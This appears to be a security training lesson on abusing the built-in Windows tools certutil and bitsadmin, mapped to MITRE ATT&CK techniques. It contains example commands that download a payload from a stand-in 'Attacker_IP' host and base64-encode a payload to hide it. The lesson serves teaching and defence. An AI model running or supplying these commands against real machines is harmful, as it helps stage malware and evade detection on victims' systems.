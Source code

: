## Certutil

Certutil is a Windows built-in utility for handling certification services. It is used to dump and display Certification Authority (CA) configuration information and other CA components. Therefore, the tool's normal use is to retrieve certificate information. However, people found that certutil.exe could transfer and encode files unrelated to certification services. The MITRE ATT&CK framework identifies this technique as **Ingress tool transfer** ([T1105](https://attack.mitre.org/techniques/T1105/)).

To illustrate this with an example, we can use certutil.exe to download a file from an attacker's web server and store it in the Window's temporary folder, using the command below. Note that we use the-urlcache and -split -f parameters to enforce the tool to download from the provided URL using the split technique.


```shell-session
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
```

-urlcache to display URL, enables the URL option to use in the command-split -f  to split and force fetching files from the provided URL.  

Also, the certutil.exe can be used as an encoding tool where we can encode files and decode the content of files. ATT&CK [T1027](https://attack.mitre.org/techniques/T1027/) refers to this technique to obfuscate files to make them difficult to discover or analyze.
```shell-session
C:\Users\thm> certutil -encode payload.exe Encoded-payload.txt
```

For more information about the tool, you may visit the Microsoft Document here: [Microsoft Docs: CertUtil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)

## BITSAdmin

The bitsadmin tool is a system administrator utility that can be used to create, download or upload Background Intelligent Transfer Service (BITS) jobs and check their progress. [BITS](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) is a low-bandwidth and asynchronous method to download and upload files from HTTP webservers and SMB servers. Additional information about the bitsadmin tool can be found at [Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin).

Attackers may abuse the BITS jobs to download and execute a malicious payload in a compromised machine. For more information about this technique, you may visit the ATT&CK [T1197](https://attack.mitre.org/techniques/T1197/) page.

Introduce the terminal container content (revisit)  


```shell-session
C:\Users\thm>bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe
```

/Transfer to use the transfer option  
/Download we are specifying transfer using download type  
/Priority we are setting the priority of the job to be running in the foreground
